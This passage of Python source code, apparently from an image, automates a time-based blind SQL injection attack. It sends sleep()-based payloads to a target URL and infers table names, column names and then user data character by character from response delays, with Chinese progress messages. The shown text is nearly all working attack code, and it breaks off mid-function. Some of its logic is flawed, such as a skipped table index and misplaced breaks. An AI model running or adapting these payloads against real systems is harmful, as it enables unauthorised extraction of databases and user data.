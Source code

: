 ```python
        print("数据库名为->"+dbname)

def get_table():
    table1 = ''
    table2 = ''
    table3 = ''
    table4 = ''
    for i in range(5):
        for j in range(6):
            for k in range(32,127):
                payload = "and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1))=%d,sleep(2),1)--+"%(i,j,k)
                time1 = datetime.datetime.now()
                res = requests.get(url + payload)
                time2 = datetime.datetime.now()
                difference = (time2-time1).seconds
                if difference > 1:
                    if i == 0:
                        table1 += chr(k)
                        print("第一个表为->"+table1)
                    elif i == 1:
                        table2 += chr(k)
                        print("第二个表为->"+table2)
                    elif i == 3:
                        table3 += chr(k)
                        print("第三个表为->"+table3)
                    elif i == 4:
                        table4 += chr(k)
                        print("第四个表为->"+table4)
                    else:
                        break

def get_column():
    column1 = ''
    column2 = ''
    column3 = ''
    for i in range(3):
        for j in range(1,9):
            for k in range(32,127):
                payload = "and if(ascii(substr((select column_name from information_schema.columns where table_name=users and table_schema=database() limit %d,1),%d,1))=%d,sleep(2),1)--+"%(i,j,k)
                time1 = datetime.datetime.now()
                res = requests.get(url+payload)
                time2 = datetime.datetime.now()
                difference = (time2-time1).seconds
                if difference > 1:
                    if i == 0:
                        column1 += chr(k)
                        print("字段一为->"+column1)
                    if i == 1:
                        column2 += chr(k)
                        print("字段二为->"+column2)
                    if i == 2:
                        column3 += chr(k)
                        print("字段三为->"+column3)
                    else:
                        break

def get_users():
    user = ''
    for i in range(188):
        for k in range(32,127):
```